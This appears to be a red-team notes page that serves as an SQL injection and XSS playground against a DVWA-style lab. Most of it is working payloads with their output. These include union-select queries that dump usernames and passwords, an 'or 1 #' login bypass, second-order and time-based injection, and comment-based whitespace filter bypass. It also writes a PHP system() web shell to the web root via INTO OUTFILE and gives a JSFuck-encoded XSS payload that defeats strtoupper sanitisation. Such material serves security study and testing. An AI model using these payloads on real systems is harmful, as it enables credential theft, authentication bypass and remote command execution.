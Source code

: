 ```yaml
---
description: This is my playground for SQL injection and XSS
---
```


# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-59-39.png)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-03-00.png)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-53-52.png)

```
```

## XSS

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Peek%202018-11-17%2020-17.gif)

### Strtoupper Bypass

Say we have the following PHP code that takes `name` as a user supplied parameter:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, and we can break out of the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

For example, if we set the `name` parameter to the value of  `a'`, we get:

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-54-22.png)

Note that the `a` got converted to a capital `A` and this is due to the `strtoupper` function being called on our input. What this means is that any ascii letters in our JavaScript payload will get converted to uppercase and become invalid and will not execute (i.e`alert() != ALERT()`).

To bypass this constraint, we can encode our payload using JsFuck, which eliminates all the letters from the payload and leaves us with this:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-55-33.png)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt_BgG5YyI" %}
